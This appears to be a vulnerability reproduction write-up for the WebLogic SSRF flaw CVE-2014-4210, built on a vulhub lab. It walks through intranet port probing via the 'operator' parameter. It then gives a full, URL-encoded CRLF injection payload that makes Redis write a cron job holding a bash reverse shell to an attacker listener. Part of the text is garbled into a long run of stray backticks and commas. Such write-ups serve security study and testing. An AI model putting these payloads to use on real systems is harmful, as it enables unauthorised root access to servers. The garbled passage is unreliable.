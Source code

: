 ```yaml
---
Title: Weblogic SSRF Vulnerability CVE-2014-4210
---
```


# Weblogic SSRF Vulnerability CVE-2014-4210

## Vulnerability Description

There is an SSRF vulnerability in Weblogic. It can use this vulnerability to send any HTTP request, and then attack vulnerable components such as redis and fastcgi in the intranet. This vulnerability can be exploited through the HTTP protocol. Unauthenticated remote attackers can use this vulnerability to affect the confidentiality of the affected components.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Oracle WebLogic Server 10.0.2.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Oracle WebLogic Server 10.3.6.0</span>

## Environment construction

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

Visit `http://xxx.xxx.xxx.xxx:7001` and it's normal

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122010908-dfbdc992-8a59-4638-b56d-404f0b538c7e.png)

## Vulnerability reappears

The URL where the vulnerability occurs is: `http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122062901-5664349d-68fe-4128-a6d6-ec843fefd82d.png)



Use payload to detect, and write the location of the probe in the operator parameter

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Be careful to know the intranet IP</span>

```plain
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

Make a judgment by viewing the error content

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122076972-b0156bf5-41a6-4b62-9cc3-2d526f092083.png)

The existing error report content is shown in the figure, with the keyword `404`. For example, change the `operator` parameter to `http://xxx.xxx.xxx.xxx:7000`. If it does not exist, the error report content is as follows.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122081877-63d635ee-e032-4d56-a627-27606bdf334f.png)



In this way, you can detect the open port of the intranet. For example, there is a host in the intranet. `IP: 172.19.0.2` to enable the redis service on port `6379``````````````````````````````````, ``, ``, ``, ``, ``, ``, ``, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `,

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122086475-d48ce9eb-a76c-4daa-94b1-fce15687b76e.png)



If you access a non-http protocol, it will return `did not have a valid SOAP content-type`, so that the intranet status can be detected through the difference in error.



Send three redis commands and write the shell script to `/etc/crontab`:

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

Then perform `url encoding` request



```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

Send payload

```shell
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

Listen after sending `172.19.0.3 Port 9999` Waiting for rebound shell

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122093990-acdd4a50-b1ff-493f-8c86-dcd2e1445641.png)